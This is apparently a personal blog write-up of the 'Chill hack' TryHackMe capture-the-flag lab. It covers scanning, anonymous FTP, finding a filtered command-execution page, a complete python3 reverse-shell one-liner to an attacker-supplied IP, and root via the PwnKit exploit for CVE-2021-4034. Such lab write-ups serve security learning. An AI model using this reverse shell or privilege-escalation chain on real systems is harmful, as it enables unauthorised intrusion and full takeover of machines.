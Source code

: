 ```yaml
---
layout: post
title: Chill hack - TryHackMe write-up
---
```

Write-up for Chill hack TryHackMe CTF

Hi hackers, today I'm gonna write-up chill hack, an easy TryHackMe CTF.

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/chillhack.png)

## User
First, I did port scanning with rustscan and nmap to find any open ports ()
```
$ rustscan -a chillhack.thm -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

Open 10.10.161.188:21
Open 10.10.161.188:22
Open 10.10.161.188:80

$ nmap -p21,22,80 -A -oN port.txt chillhack.thm
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.53.247
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I started enumerating all services starting from FTP, port 21 was hosting an FTP server allowing anonymous access so I connected and downloaded all file
```
$ ftp chillhack.thm$ ftp chillhack.thm
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
```
note.txt contained the following content:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
Then, I started testing HTTP (port 80) who was hosting the following static web page:
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/webpage.png)
That page contained nothing of useful so I did a directory bruteforce with dirsearch
```
$ dirsearch -u http://chillhack.thm -w $LIST/directory/dir.txt -t 50 -o directory.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 329449

Output File: /home/ubuntu/ctf/tmp/directory.txt

Error Log: /home/ubuntu/.local/lib/python3.9/site-packages/dirsearch/logs/errors-22-05-09_21-24-51.log

Target: http://chillhack.thm/

[21:24:52] Starting: 
[21:25:14] 301 -  312B  - /css  ->  http://chillhack.thm/css/
[21:25:29] 301 -  314B  - /fonts  ->  http://chillhack.thm/fonts/
[21:25:38] 301 -  315B  - /images  ->  http://chillhack.thm/images/
[21:25:41] 301 -  311B  - /js  ->  http://chillhack.thm/js/
[21:26:03] 301 -  315B  - /secret  ->  http://chillhack.thm/secret/
[21:26:04] 403 -  278B  - /server-status
[21:26:19] 200 -   34KB - /index.html

Task Completed
<dirsearch.dirsearch.Program object at 0x7f7cbef0b730>
```
I noticed the page secret and found it contained a remote code execution, I tried to execute some command but there's a filter blocking our commands

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/rce.png)

to bypass this filter we can use backslash

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/ls.png)

now we can spawn a reverse shell to get user, here's mine:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your IP>",<your port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Root
After getting user I started finding somethings to get root, and I found something interesting in OS version:
```
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
It's vulnerable to CVE-2021-4034, so I uploaded [PwnKit](https://github.com/ly4k/PwnKit) onto the server and run it

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/pwnkit.png)

It worked, we got root!
See you at the next post, keep hacking
